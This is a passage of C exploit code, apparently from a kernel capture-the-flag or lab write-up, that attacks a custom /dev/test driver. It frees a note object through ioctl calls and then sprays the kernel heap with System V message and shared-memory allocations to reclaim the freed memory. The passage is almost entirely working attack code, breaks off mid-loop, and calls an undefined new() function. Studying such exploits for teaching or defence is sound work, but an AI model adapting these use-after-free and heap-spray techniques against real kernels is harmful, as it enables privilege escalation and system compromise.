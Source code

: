 ```c
int delete(void) {
  cmd.size = 0; cmd.note = NULL;
  return ioctl(fd, 0xdead0002, &cmd);
}
int store(int size, void *note) {
  cmd.size = size; cmd.note = note;
  return ioctl(fd, 0xdead0003, &cmd);
}
int load(int size, void *note) {
  cmd.size = size; cmd.note = note;
  return ioctl(fd, 0xdead0004, &cmd);
}

void stop(void) {
  puts("Press enter to continue...");
  getchar();
}

int main() {
 
    fd = open("/dev/test", O_RDWR);
    if(fd==-1){
        perror("/dev/test");
        close(fd);
        return 1;
    }else{
        puts("perangkat terbuka");
    }

    char buff[0x2000];
    char recv[0x2000];
    memset(buff,0,sizeof(buff));
    memset(recv,0,sizeof(recv));

    for(int i=0; i < 3;i++){
        new(0x20);
    }
    delete();
    
    int msqid;
    if((msqid = msgget(IPC_PRIVATE,0666|IPC_CREAT))==-1){
       perror("msgget");
       close(fd);
       return EXIT_FAILURE;
    }

    msg_t *msg = (msg_t*)buff;

    msg->mtype = 1;
    memset(msg->mtext,0x43,0x1010);

    if(msgsnd(msqid,msg,0x1010-0x30,0)==-1){
        perror("msgsnd");
        close(fd);
        return EXIT_FAILURE;
    }

    int shmid;
    for(int i=0; i < 0x100; i++){
        if((shmid = shmget(IPC_PRIVATE,100,0600))==-1){
            perror("shmget");
            close(fd);
            return EXIT_FAILURE;
```